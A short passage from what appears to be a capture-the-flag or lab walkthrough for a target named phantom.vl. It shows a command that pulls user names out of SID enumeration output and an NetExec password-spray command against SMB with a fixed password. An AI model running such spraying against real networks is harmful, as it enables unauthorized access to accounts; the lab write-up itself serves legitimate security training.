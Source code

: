 ![image.png](../images/phantom%207.png)

Now let’s get the valid users

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/phantom%208.png)

Now let’s do a password spray

```bash
nxc smb phantom.vl -u users.txt -p 'Ph4nt0m@5t4rt!' --continue-on-success
```
